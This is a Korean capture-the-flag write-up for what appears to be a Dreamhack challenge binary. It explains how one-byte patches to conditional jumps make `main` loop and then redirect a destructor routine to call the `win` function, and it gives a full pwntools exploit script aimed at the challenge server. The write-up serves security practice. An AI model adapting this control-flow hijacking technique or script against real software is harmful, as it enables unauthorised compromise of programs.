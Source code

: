 처음엔 1바이트만 바꿔서 `win` 함수를 부를 수 있을지 생각해봤다. 좀 고민한 끝에 안 된다는 것을 깨달았다.
그럼 1바이트만 바꿔서 `main` 함수를 계속 부를 수 있어야 한다.
`jz      short locret_132A`
이용해주면 된다. 항상 참이므로 뛰는 값만 조절하면 `main` 함수 초반으로 돌아갈 수 있어서 원하는 만큼 조작이 가능하다.

그 후는 다양한 방법으로 `win` 함수를 부를 수 있는데, 나는 `_fini_array`에 있는 `__do_global_dtors_aux` 함수를 사용하였다.
`jnz     short locret_11D8`
여기서 `jnz`를 `jz`로 바꾸고 뛰는 값을 조절한 뒤, `main`  무한 반복을 풀어주면 `win` 함수를 호출할 수 있다.

브포로 딱 1바이트만 바꿔서 성공하신 분 제외하고는 익스 코드가 짧은 편에 속하는 것 같다.
# exploit.py

```python
from pwn import *
from time import *

p = remote('host1.dreamhack.games', 14712)
#p = process('./prob')

p.sendlineafter(b': ', str(0x324).encode())
p.sendlineafter(b': ', str((0x2b3 - 0x325) & 0xff).encode())

sleep(1)
p.sendline(str(0x1ab).encode())
p.sendlineafter(b': ', str(0x74).encode())

sleep(1)
p.sendline(str(0x1ac).encode())
p.sendlineafter(b': ', str(0xed - 0xab - 2).encode())

sleep(1)
p.sendline(str(0x324).encode())
p.sendlineafter(b': ', str(0x5).encode())
p.interactive()
```